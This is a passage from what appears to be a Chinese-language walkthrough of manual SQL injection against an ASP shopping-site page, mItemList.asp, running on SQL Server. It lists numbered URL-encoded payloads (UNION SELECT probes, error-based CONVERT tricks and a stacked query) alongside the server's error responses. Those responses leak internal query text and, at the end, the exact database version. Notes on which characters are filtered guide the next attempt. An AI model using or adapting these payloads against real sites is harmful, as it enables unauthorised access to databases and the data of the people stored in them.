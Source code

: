 9. `mItemList.asp?ClsId=%27%20UNION%20SELECT%20NULL--`

```
[Microsoft][ODBC SQL Server Driver][SQL Server]使用 UNION、INTERSECT 或 EXCEPT 運算子結合的所有查詢，其目標清單中的運算式數量必須相等。<hr>exec ssp_search_page 'SELECT top 100 percent t.OrderId,t.ScdId,t.PrvId,t.OnlineRoomId,t.ClsUpId,t.ClsId,t.ROWID,t.Id,t.Name,t.urlName,t.ImgFile,t.ClsName,t.SizeName,t.SpcPrice,t.AdvPrice,t.Qty,t.IconTopPic,t.IconTitle,  ROUND((Case I.swDicPrice WHEN 1 THEN I.Price ELSE ( Case  WHEN I.PriceF <= 15 THEN  CEILING((dbo.GetOnlinePrvdDiscount(I.PrvdId)) * I.PriceF) ELSE ((dbo.GetOnlinePrvdDiscount(I.PrvdId)) * I.PriceF) END )  END ) ,0) As MemberPrice, ROUND( I.PriceF , 0) As FixedPrice,  ROUND( I.Price , 0) As SalePrice,  ROUND(I.Price,0) As GroupPrice,  ROW_NUMBER() OVER (ORDER BY ROWID) as _RowId from TmpProductItem as t with(nolock) , item as i   where i.id=T.id   and t.ClsId = '''' UNION SELECT NULL--'' ORDER BY ISNull(t.Qty, 0) DESC, Id ','1','20'
```

10. `mItemList.asp?PriceMax=%27%20UNION%20SELECT%20NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL--`

```html
<font face="Arial" size="2"> <p>Microsoft VBScript 執行階段錯誤</p></font>
<font face="Arial" size="2">錯誤 '800a000d'</font>
<p>
  <font face="Arial" size="2"
    >類型不符: '[string: &quot;' UNION SELECT NULL,&quot;]'</font
  >
</p>

<p>
  <font face="Arial" size="2">/_Models/mItemList.asp</font
  ><font face="Arial" size="2">, 行264</font>
</p>
```

看來 UNION SELECT 很麻煩，先改用 Error-Based 試試看

11.

`%27%20AND%201%20%3D%20CONVERT(int%2C%40%40version)--`
`%27%20AND%201%20>%20CONVERT(int%2C%40%40version)--`

```
[Microsoft][ODBC SQL Server Driver][SQL Server]接近關鍵字 'CONVERT' 之處的語法不正確。<hr>exec ssp_search_page 'SELECT top 100 percent t.OrderId,t.ScdId,t.PrvId,t.OnlineRoomId,t.ClsUpId,t.ClsId,t.ROWID,t.Id,t.Name,t.urlName,t.ImgFile,t.ClsName,t.SizeName,t.SpcPrice,t.AdvPrice,t.Qty,t.IconTopPic,t.IconTitle,  ROUND((Case I.swDicPrice WHEN 1 THEN I.Price ELSE ( Case  WHEN I.PriceF <= 15 THEN  CEILING((dbo.GetOnlinePrvdDiscount(I.PrvdId)) * I.PriceF) ELSE ((dbo.GetOnlinePrvdDiscount(I.PrvdId)) * I.PriceF) END )  END ) ,0) As MemberPrice, ROUND( I.PriceF , 0) As FixedPrice,  ROUND( I.Price , 0) As SalePrice,  ROUND(I.Price,0) As GroupPrice,  ROW_NUMBER() OVER (ORDER BY ROWID) as _RowId from TmpProductItem as t with(nolock) , item as i   where i.id=T.id   and t.ClsUpId='''' AND 1   CONVERT int,@@version --'' ORDER BY ISNull(t.Qty, 0) DESC, Id ','1','20'
```

看來 `=`, `(`, `)`, `>`, `<` 都會被過濾

12. `mItemList.asp?ClsUpId=%27;SELECT%201/@@version--`

```
Microsoft OLE DB Provider for ODBC Drivers 錯誤 '80004005'

[Microsoft][ODBC SQL Server Driver][SQL Server]將 nvarchar 值 'Microsoft SQL Server 2012 (SP4) (KB4018073) - 11.0.7001.0 (X64) Aug 15 2017 10:23:29 Copyright (c) Microsoft Corporation Standard Edition (64-bit) on Windows NT 6.3 <X64> (Build 17763: ) (Hypervisor) ' 轉換成資料類型 int 時，轉換失敗。

/_Models/mItemList.asp, 行352
```
